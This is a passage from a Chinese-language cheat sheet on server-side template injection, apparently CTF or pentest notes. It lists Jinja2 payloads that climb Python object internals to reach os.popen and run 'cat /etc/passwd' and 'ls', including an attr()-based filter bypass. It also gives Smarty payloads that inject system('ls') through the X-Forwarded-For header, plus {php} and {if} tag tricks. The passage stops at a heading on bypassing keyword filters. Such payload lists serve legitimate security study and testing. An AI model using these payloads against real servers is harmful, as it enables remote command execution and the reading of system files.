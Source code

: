 ```
{{()['__class__']['__base__']['__subclasses__']()[117]['__init__']['__globals__']['popen']('cat /etc/passwd')['read']()}}
```



## attr代替

```
{{()|attr(‘__class__’)|attr(‘__base__’)|attr(‘__subclasses__’)()|attr(‘__getitem__’)(199)|attr(‘__init__’)|attr(‘__globals__’)|attr(‘__getitem__’)(‘os')|attr(‘popen’)(‘ls’)|attr(‘read’)()}}
```





# 12.smarty SSTI

控制XFF进行命令执行（这是要在前端有IP相关回显的情况）

payload:

```
X-Forwarded-For: {{system("ls")}}
```

标签

**{php}**

```
{php}phpinfo();{/php}
```

Smarty已经废弃{php}标签，强烈建议不要使用。在Smarty 3.1，{php}仅在SmartyBC中可用。

**{literal} 标签**

**{literal}可以让一个模板区域的字符原样输出。** 这经常用于保护页面上的Javascript或css样式表，避免因为Smarty的定界符而错被解析。

{if}{/if}

```
{if phpinfo()}{/if}

```

# 13.绕过关键字过滤

​	

```
以__class__为例
```

## 1.字符编码
